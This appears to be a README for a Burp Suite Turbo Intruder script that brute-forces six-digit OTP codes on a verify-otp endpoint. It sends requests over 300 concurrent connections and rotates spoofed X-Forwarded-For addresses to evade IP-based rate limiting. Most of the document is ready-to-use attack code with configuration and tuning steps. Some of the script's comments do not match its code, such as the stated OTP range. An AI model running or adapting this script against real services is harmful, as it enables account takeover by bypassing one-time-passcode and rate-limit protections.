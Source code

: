 # Race-Condition-Scripts

## OTP Brute-Force with IP Rotation (Race Condition Exploit)

 ### How to Configure

1. In Burp Suite:
   - Capture a legitimate OTP request
   - Right-click → "Convert to Turbo Intruder attack"
   - Replace the OTP value with `%s` in the body
   - Add/Modify the `X-Forwarded-For` header to use `%s`

Example request template:

```

POST /verify-otp HTTP/1.1

Host: target.com

X-Forwarded-For: %s

Content-Type: application/json

  

{"OTP":"%s"}

```

Payload:
```py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                          concurrentConnections=300,
                          requestsPerConnection=100,
                          pipeline=False)

    # Initialize IP counter (starts at 1.1.1.1)
    ip_parts = [1, 1, 1, 1]

    for otp in range(310000, 999999):  # 000000 to 999999
        # Format current IP
        current_ip = "%d.%d.%d.%d" % tuple(ip_parts)
        
        # Increment IP (1.1.1.1 → 1.1.1.2 → ... → 1.1.1.255 → 1.1.2.0)
        ip_parts[3] += 1
        if ip_parts[3] > 255:
            ip_parts[3] = 1
            ip_parts[2] += 1
            if ip_parts[2] > 255:
                ip_parts[2] = 1
                ip_parts[1] += 1
                if ip_parts[1] > 255:
                    ip_parts[1] = 1
                    ip_parts[0] += 1

        # Pad OTP with leading zeros
        otp_str = str(otp).zfill(6)
        
        # Queue the request with parameters in correct order
        # First %s is for X-Forwarded-For (IP)
        # Second %s is for OTP in JSON body
        engine.queue(target.req, [current_ip, otp_str])


def handleResponse(req, interesting):
    if req.status != 404:
        table.add(req)

```
### Request Structure

The script generates requests with:

1. **Header**: `X-Forwarded-For: [current IP]` (e.g., `X-Forwarded-For: 1.1.1.1`)
2. **JSON Body**: `{"OTP": "[padded OTP]"}` (e.g., `{"OTP": "318121"}`)
### Attack Workflow

1. **IP Rotation**: Cycles through IPs from 1.1.1.1 to 255.255.255.255
2. **OTP Generation**: Tests all 6-digit combinations from 310000 upwards
3. **Concurrent Execution**: 300 parallel connections × 100 requests each
4. **Response Handling**: Any non-404 response is flagged as potentially valid
### Important Notes

- Adjust the OTP range (`000000-999999`) based on target hints
- Modify `concurrentConnections` based on target stability
- The IP rotation helps bypass IP-based rate limiting
- High concurrency exploits potential race conditions in OTP validation